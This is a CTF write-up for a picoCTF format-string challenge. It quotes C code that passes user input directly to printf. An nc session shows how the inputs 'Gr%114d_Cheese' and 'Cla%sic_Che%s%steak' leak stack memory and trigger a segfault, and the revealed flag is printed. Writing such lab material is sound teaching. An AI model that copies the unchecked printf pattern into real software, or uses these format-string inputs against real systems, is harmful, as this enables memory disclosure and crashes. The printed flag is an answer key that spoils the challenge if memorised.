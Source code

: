 ```c
void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```
- Again the `segfault` was forwarded to `sigsev_handler` and it was used to print the flag, so that means I have to create some sort of an overflow here.
- The program was divided into two levels `serve_patrick` and `serve_bob`. The first level could be passed just by inputting the option which has size greater than 2 times the `BUFSIZE`  which was defined to be 32 in the definitions, so the size should be greater than `64` bytes.
- Here the option `Gr%114d_Cheese` had the substring `%114d`, on reading about it on the net, I found out that `114` in the `%d`(integer) format specifier forces it to output an integer from the memory stack which is padded to 114 characters, which is greater than `64` bytes. 
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/fmstr0 $ nc mimas.picoctf.net 63143
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation:
```

- I finally moved on to the next level. Here again it required you to choose an option. Looking back at the source code, I could see that there was no other option than to `segfault` to get the flag.
- So out the three options, one option caught my eye, `Cla%sic_Che%s%steak`, this string had three proper format specifiers `%s` (`Pe%to_Portobello` had `%t` but that is not a format specifier), So I inputted that and that caused the binary to go to `sigsev_handler` and print the flag. 
```zsh
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
- On further reading, I got to know that the reason this worked was because when you don't pass any string variable and only use `%s` in `printf()`, it can cause it to read garbage values form the memory stack, it can also infer to point at memory address outside of the binary. Due to that the program opted to force it to segmentation violation.
